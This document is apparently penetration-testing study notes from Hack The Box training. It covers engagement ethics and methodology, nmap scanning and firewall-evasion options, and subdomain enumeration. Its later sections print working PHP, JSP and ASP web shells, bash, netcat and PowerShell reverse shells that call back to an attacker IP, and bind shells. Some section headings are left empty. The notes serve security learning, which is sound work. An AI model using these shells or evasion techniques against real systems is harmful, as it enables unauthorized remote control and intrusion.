

## Legal and Ethical Issues


Make sure you are working for a legitimate organization performing assessments only after explicit coordination between the target company and client.

Criminal Organization hire talent to assist with their illegal actions

- Keep a copy of scope of work/contact and formal document listing the scope testing also signed by the client
- Stay within the scope of testing.
- When in Doubt document and overcommunicate
- Analyse and dig deeper and question everything

## The HTB Methodology

### Pre-Engagement

- This is where main commitments, tasks, scope, limitations and related agreements are documented in writing.
- Contractual documents are drawn and essential information is exchanged during this stage

CheckMarks 
- Non-Disclosure Agreement
- Goals
- Scope
- Time Estimation
- Rules of Engagement

The entire pre-engagement process consists of three essential components:
1. Scoping questionnaire
2. Pre-engagement Meeting
3. Kick-Off Meeting

Before this an NDA is signed by both parties

Documents requires before conducting penetration test

1. Non-Disclosure Agreement (NDA)	After Initial Contact
2. Scoping Questionnaire	Before the Pre-Engagement Meeting
3. Scoping Document	During the Pre-Engagement Meeting
4. Penetration Testing Proposal (Contract/Scope of Work (SoW))	During the Pre-engagement Meeting
5. Rules of Engagement (RoE)	Before the Kick-Off Meeting
6. Contractors Agreement (Physical Assessments)	Before the Kick-Off Meeting
7. Reports	During and after the conducted Penetration Test


### Information Gathering 

- Enumerate and Gain as much as information about the target

Ways to obtain information:
1. Open-Source Intelligence
2. Infrastructure Enumeration
3. Service Enumeration
4. Host Enumeration


### Vulnerability Assessment

- Use the information we found to identify potential weaknesses in the system or infrastructure
- Divided in two: One use of vulnerablity scanners in automation fashion to scan and probe for known vulnerablities. Other is use of information we find to identify the potential weakness in system manually

### Exploitation

- Attack performed against a system or application based on potential weakness we found during information gathering phase
- Information Gathering to gather enough information and analyze it via Vulnerablitiy Assessment and prepare potential attacks


### Post-Exploitation

- Bypassing security mechanisms and obtaining highest possible privileges on the compromised system

### Lateral Movement

- Move from one system to another in a coorporate environment done after intial compromised or after gaining the highest possible privileges on the compromised system which might be dual homed

### Proof-Of-Concept (POC)

- PoC are the proof that the vulnerability exist and is exploitable. It is given with detailed steps to reproduce the entire attack chain to proof the vulnerability

### Post-Engagement

- Cleaning up the systems and polishing report

Document should contain the following:
- An attack chain detailing steps taken to achieve compromise
- A strong executive summary for technical and also one for non-tech individuals
- Risk rating, finding impact and remediation recommendation
- Steps to reproduce  


## Precautionary Measure or Engagement Checklist

-   Obtain written consent from the owner or authorized representative of the computer or network being tested
-  the testing within the scope of consent obtained only and respect any limitations specified
-   Take measures to prevent causing damage to the systems or networks being tested
-   Do not access, use or disclosure personal data or any other information obtained during the testing without permissions
-   Do not intercept electronic communications without the consent of one of the parties to the communicaton
-   Do not conduct testing on systems or networks that are covered by the Health Insure Portabilty and Accountability Act (HIPPA) without proper authorization


#### InfoSec Specialization
- Network and infrastructure security
- Application Security
- Security Testing
- Systems auditing
- Business continuity planning
- Digital forencis
- Incident Detection and response

**One way to find the vulnerability is to take a assumed guess that is backed up with experience and after seeing the repeatative misconfigurations. Assume and then proceed likely to find a potential vulnerability**

`


# 1. Service Enumeration & Exploitation

## Service Enumeration

--> Goal is to collect as much information as we can about the target and identify all the ways we could attack 

Main Goals:
- Functions and resources that allow us to interact with the target and provide additional information
- Information that provides even more information to access our target


**If you can't find anything its is not that you didn't try all the tool it is due to you don't know how to interact with target services**

## Nmap

--> Open source network analysis & secutiy auditing tool

####  Syntax
```bash
nmap <scan types> <options> <target>
```

### Host Discovery

#### Host Alive Scan

```bash
sudo nmap 10.x.x.x/23 -sn -oA tnet | grep for | cut -d" " -f5
```
- `-sn` --> disables port scanning

#### Network Scan from a file

```bash
sudo nmap -sn -oA tnet -iL hosts.txt 
```
- `-iL`  --> Performs defined scans against targets in provided list

#### Scan Multiple IPs

```bash
sudo nmap -sn -oA tnet 10.x.x.x 10.x.x.x 10.x.x.x

# or 

sudo nmap -sn -oA tnet 10.x.x.x-x
```

#### ICMP Host scan

```bash
sudo nmap 10.x.x.x -sn -oA host -PE --packet-trace --reason
```
- `-PE` --> Performs ping scan 
- `--packet-trace` --> shows all packets sen and received
- `--reason` --> why the host is alive 

*By default nmap uses ICMP ping request to determine if the host is alive and if we disbale the ICMP ping then, it uses ARP ping*

----

### Port Scanning

Information to observe carefully:
- Open ports and its services
- Service versions
- Information the service provided
- Operating system

Total of 6 different states for scanned port
- `open`  --> connection establish via TCP, UDP 
- `closed` --> recieved RST packet from the target indicated the port is closed
- `filtered` --> packet is either dropped or blocked by the firewall filtering rules
- `unfiltered` --> often happens in `-sA` SYN-ACK scans where we can't determine if the port is open or closed since we only send  one packet the ending one
- `open|filtered` --> Often happens with UDP scans since its a connectionless protocol and if the firewall dropped the packet there's is no way of knowing whether the port is open or filtered
- `closed|filtered` --> Happends with IP ID idle scan as use zombie packet ID to determine the state and since the incremention of packet ID for filtered or closed is same it becomes confusing to get the right answer

#### Scanning Top 10 TCP Ports

```bash
sudo nmap 10.x.x.x --top-ports=10
```
- `-F` --> fast port scan whch contains 100 ports

#### Disable auto ping and dns resolution

```bash
sudo nmap 10.x.x.x -p 21 --packet-trace -Pn -n --disable-arp-ping 
```

#### TCP Connect Scan

```bash
sudo nmap 10.x.x.x -p 443 --packet-trace --disable-arp-ping -Pn -n --reason -sT
```

When firewall rejects we  most likely to get type3 ICMP error code 3 


#### UDP Port Scan

```bash
sudo nmap -sU 10.x.x.x -Pn -n --disable-arp-ping -v --packet-trace --reason
```

#### Version Scan

```bash
sudo nmap 10.x.x.x -Pn -n --disable-arp-ping --packet-trace -p 445 --reeason -sV 
```

- `-sV` -->  Performs a service scan

---

### Service enumeration and detection

Why the version of a service is important?
- We can use this information to scan for known vulnerabilities and analyze the source code
- An exact version number allows us to search for more precise exploit that fits service and the operating system

Do a quick scan first and probe individual ports to find the service version creates less logs 

#### Service Scan

```bash
sudo nmap 10.x.x.x -p- -sV --stats-every=5s -vvv -Pn -n --disable-arp-ping
```
- `-stats-every=5s` --> defining how periods of time the status should be shown

- `-v, -vv, -vvv` --> Different versbosity level, displays more detail


---

### OS Detection

### NSE (Nmap Scripting Engine)

NSE provides us with the possibility to create scripts Lua for interaction with certain services

There are total of 14 categories which these scrips can be divided into:

- auth	Determination of authentication credentials.
- broadcast	Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans.
- brute	Executes scripts that try to log in to the respective service by brute-forcing with credentials.
- default	Default scripts executed by using the -sC option.
- discovery	Evaluation of accessible services.
- dos	These scripts are used to check services for denial of service
vulnerabilities and are used less as it harms the services.
- exploit	This category of scripts tries to exploit known vulnerabilities for the scanned port.
- external	Scripts that use external services for further processing.
- fuzzer	This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time.
- intrusive	Intrusive scripts that could negatively affect the target system.
- malware	Checks if some malware infects the target system.
- safe	Defensive scripts that do not perform intrusive and destructive access.
- version	Extension for service detection.
- vuln	Identification of specific vulnerabilities.


#### Default Scripts

```bash
sudo nmap <target> -sC
```

#### Specific Scripts Category

```bash
sudo nmap <target> --script <category>
```

#### Defined Scripts

```bash
sudo nmap <target> --script <script-name>,<script-name>,...
```

#### Nmap - Specifying Scripts

```bash
sudo nmap 10.x.x.x -p 25 --script banner,smtp-commands
```

#### Nmap - Aggresive Scan

```bash
sudo nmap 10.x.x.x -A 
```
- `-A`	Performs service detection, OS detection, traceroute and uses defaults scripts to scan the target.

#### Nmap - Vulnerability Assessment

```bash
sudo nmap 10.x.x.x -p 80 -sV --script vuln
```
---

### Firewall and EDR evasion

Firewall two things with packets -- drop them or reject them

If dropped the packets are ignored and no respoonse is returned from host

If rejected then it generates some typical errors:
- Net Unreachable
- Net Prohibited
- Host Unreachable
- Host Prohibited
- Port Unreachable
- Proto Unreachable


1. Nmap TCP ACK scan is much harder to filter for firewalls and IDS/IPS 

#### ACK-SCAN

```bash
sudo nmap 10.x.x.x -p 21,22 -sA -Pn -n --disable-arp-ping --packet-trace
```

#### Decoys
Nmap generates various random IP addresses inserted into the IP header to disguise the origin of the packet sent. With this method, we can generate random (RND) a specific number (for example: 5) of IP addresses separated by a colon (:). Our real IP address is then randomly placed between the generated IP addresses

```bash
sudo nmap 10.x.x.x -sS -p 80 -Pn -n --disable-arp-ping --packet-trace -D RND:5
```

#### Scan by Using Different Source IP

```bash
sudo nmap 10.x.x.x -n -Pn -p 445 -O -S 10.x.x.x -e tun0
```
- `-S`	Scans the target by using different source IP address.
- `10.x.x.x.x` --> Specifies the source IP address.
- `-e tun0`	Sends all requests through the specified interface.

----


### DNS Proxy

*Nmap still gives us a way to specify DNS servers ourselves (--dns-server <ns>,<ns>). This method could be fundamental to us if we are in a demilitarized zone (DMZ). The company's DNS servers are usually more trusted than those from the Internet.*

```bash
sudo nmap 10.x.x.x -p 3000 -sS -Pn -n --disable-arp-ping --packet-trace --source-port 53
```

#### Connecting To Filtered Port

```bash
ncat -nv --source-port 53 10.x.x.x 50000
```


---
### Saving Results

Always saves results.

Three different format:
- `-oN` -> Normal output --> `.nmap` file extension
- `-oG` --> Grepable output --> `.gnmap` file extension
- `-oX` --> XML output  --> `.xml` file extension
- `-oA` --> All Three formats


```bash
sudo nmap 10.x.x.x -p- -oA <Filename>
```

#### Style Sheets

With XML output, we can create HTML reports that are easy to read, **even for non-tech people**

```bash
xsltproc target.xml -o target.html
```


### Optimize and Performance

#### TimeOuts

Set the Round-Trip-Time-RTT high to receive a response from the scanned port 

```bash
sudo nmap 10.x.x.x/24 -F initial-rtt-timeout 50ms --max-rtt-timeout 100ms
```

#### MAX Retries
Increase scan speed is by specifying the retry rate of sent packets (--max-retries). The default value is 10, but we can reduce it to 0. 

```bash
# reduced retries scan
sudo nmap 10.x.x.x/24 -F --max-retries 0 
```

#### Changing the rates and speed at  which packets sent

```bash
sudo nmap 10.x.x.x/24 -F -oN tnet --min-rate 300
```

### Timing

- `-T 0` --> Paraniod
- `-T 1` --> Sneaky
- `-T 2` --> Polite
- `-T 3` --> Normal
- `-T 4` --> Aggressive
- `-T 5` --> Insane

#### Insane Scan

```bash
sudo nmap 10.x.x.x/24 -F -oN tnet -T 5
```
---
---

**Our Goal is not to get at the system but to find all the ways to get there**

## Service Enumeration

The whole enumeration is divided into three different levels:

1. Infrastructure-based enumeration
2. Host-Based enumeration
3. OS-Based enumeration


THese further divided into 6 layers

**Layer 1: Internet Presence**

- Identification of internet presence and externally accessible infrastructure
- Domains, Subdomains, vHosts, ASN, Netblocks, IP Addresses, cloud instances, etc

**Layer 2: Gateway**
  
- Identify the possible security measures to protect the company's extenal and internal infrastructure 
- Firewalls, DMZ, IPS/IDS, EDR, Proxies, NAC, Netowork Segmentation

**Layer 3: Accessible Services**

- Identify accessible interfaces and services that are hosted externally or internally
- Service Type, functionality and all that

**Layer 4: Processes**

- Identify internal processes, sources and destination associated with services
- PID, Processed Data, Taasks, Source, Destination


**Layer 5: Privileges**

- Identification of the internal permissions and privileges to the accessible services
- Groups, Users, permissions

**Layer 6: OS Setup**

- Identification of internal components and systems setup
- OS Type, Patch level, Network config OS environment


## Infrastructure based Enumeration

### Domain Information

1. **Map out the entire presence of target on the internet**
2. Scrutinize the target's main website

#### SSL Certificate
- The first point of presence on the internet might be `SSL Certificate`
- Might contain subdomains 
- Use [crt.sh](https://crt.sh/) to find more subdomains


##### Viewing Target SSL Certificate

```bash
curl -s https://crt.sh/\?q=<domainname>\&output\=json | jq .
```

#### Listing Subdomains via crt.sh query

```bash
curl -s https://crt.sh/\?q\=inlanefreight.com\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
```

#### Finding if the hosts directly accessible or hosted by a third-party

```bash
for i in $(cat subdomainlist);do host $i | grep "has address" | grep inlanefreight.com | cut -d" " -f1,4;done
```

#### SHODAN - query

To investigate further, we can generate a list of IP addresses
- Shodan can be used to find devices and systems permanently connected to the Internet like Internet of Things (IoT)
- It searches the Internet for open TCP/IP ports and filters the systems according to specific terms and criteria. For example, open HTTP or HTTPS ports and other server ports for FTP, SSH, SNMP, Telnet, RTSP, or SIP are searched.

```bash
for i in $(cat subdomainlist);do host $i | grep "has address" | grep inlanefreight.com | cut -d" " -f4 >> ip-addresses.txt;done


for i in $(cat ip-addresses.txt);do shodan host $i;done
```

#### Query DNS Records

```
dig any inlanefrieght.com
```

- `A` --> IPv4 addresses
- `MX` --> Mail server records, shows us which mail server is responsible for managing the emails for the company
- `NS` --> Shows which name server are used to resolve FQDN to IP addresses
- `TXT` --> Might contains informative and sensitive information


# 2. Web Enumeration & Exploitation

### Passive Enumeration

#### Banner Grabbing & Fingerprinting

Retrieving server header information andget good picture of what is hosted on the web server

```bash
curl -IL <Target-Website-URL>
```

**Whatweb** extract the version of webservers, supporting frameworks and applications using the command-line tool `whatweb`

```bash

whatweb --no-errors 10.x.x.0/24
```

#### Certificates

- SSL/TLS certs can potentially contains email address and company name.
- *This could potentially be used to conduct a phising attack*

https://cdn.services-k8s.prod.aws.htb.systems/content/modules/77/cert.png


#### Robots.txt

- Common for websites and instructs the google bots which resources can and cannot be accessed for indexoing
- Could potentially the wealth of privileged endpoints

```bash
curl -s http://10.x.x.x/robots.txt
```

#### Source Code

- Could potentially contain sensitive information --> [CTRL + U]
---
---

## Exploitation

#### Web Shell

##### PHP Web Shell

```php
<?php system($REQUEST["cmd"]); ?>
```

#### jsp Web Shell
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### asp Web Shell

```asp
<% eval request("cmd") %>
```


#### WebServer and Their Common Web Root

- Apache -->	/var/www/html/
- Nginx	 -->   /usr/local/nginx/html/
- IIS	 -->   c:\inetpub\wwwroot\
- XAMPP	 -->   C:\xampp\htdocs\


# 3. Application Enumeration & Exploitation

# 4. Active Directory Enumeration & Exploitation

# 5. Linux Enumeration, Exploitation and Pivoting

### Reverse Shell

```bash
# First one
bash -c 'bash -i >& /dev/tcp/10.x.x.x/1234 0>&1'

# Second one

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.x.x.x 1234 >/tmp/f
```


### Bind Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## Upgrade TTY

```bash
python -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Then `[CTRL +Z]` to put the shell in background and do this

```bash
stty raw -echo 

fg
```

--> This will give us fully working TTY shell with command history and everything else
# 6. Windows Enumeration, Exploitation and Pivoting


### Reverse Shell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


### Bind Shell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

# 7. Documentation & Reporting
